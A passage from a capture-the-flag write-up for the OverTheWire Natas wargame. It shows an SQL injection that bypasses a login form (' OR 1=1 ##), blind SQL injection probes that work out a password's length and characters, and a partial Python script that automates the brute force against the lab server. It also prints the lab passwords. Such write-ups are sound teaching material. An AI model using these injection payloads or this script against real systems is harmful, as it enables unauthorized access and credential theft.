 - As we can see there are no checks for the input query, and whatever we input in the `username` and `password` are directly integrated as part of the `$query` and executed on the `MySQL` server.
- Thus, we can perform a simple SQL injection to bypass the `username` and `password` checks, with the following entries:

    username: " OR 1=1 ##
    password: 

- This should reveal the password for `natas15`.
- Password

    AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## 16 Level 15 → Level 16

- The landing page for `natas15` shows a form with the field `username`.
- By looking at the `php` source code, we can see that the code is written so that the server echoes `user exists` if our query is correct and returns some number of rows and `user does not exist` when our query does not return any rows.
- Hence, we can perform `Blind Injection` on the `username` field.
- From the source code, we know that the table contains two fields: `username` and `password`.
- Let's check if there is a user named `natas16`, since we need its password. When we enter `natas16` in the `username` field, it says that the user exists.
- Now, we must determine the length of the password by using the `LENGTH()` function and then, using hit and trial, by injecting the following:

    natas16" AND LENGTH(password) > 10 ## ⇒ user exists
    natas16" AND LENGTH(password) > 20 ## ⇒ user exists
    ...
    natas16" AND LENGTH(password) > 33 ## ⇒ user does not exist
    natas16" AND LENGTH(password) = 32 ## ⇒ user exists*

- Now, we must brute force the 32-character password by using `SUBSTR()` function and binary search. By default, as the password column is of type `VARCHAR`, any comparison operations performed on it are **case-insensitive**. Hence, we must perform comparisons using the `BINARY` keyword. This does, however, incur a performance hit.
- From the password pattern of the previous levels, we can guess that the password may contain uppercase and lowercase letters, and numbers. The code to automate this process is as follows:

    ```python
    from bs4 import BeautifulSoup as soup
    import re
    import requests
    from string import ascii_lowercase, ascii_uppercase

    url = 'http://natas1natas.labs.overthewire.org'

    auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

    alphabet = '0123456789' + ascii_uppercase + ascii_lowercase

    def check(inject, verbose=False):
        data = {'username': inject}
        response = requests.post(url, data=data, auth=auth)
        clean = soup(response.content, "lxml")
        text = clean.body.get_text("\n")
        if verbose:
    	print(inject)
    	## print(text)
        if re.search("exists", text):
    	returned = 1
        else:
    	returned = 0
        return returned
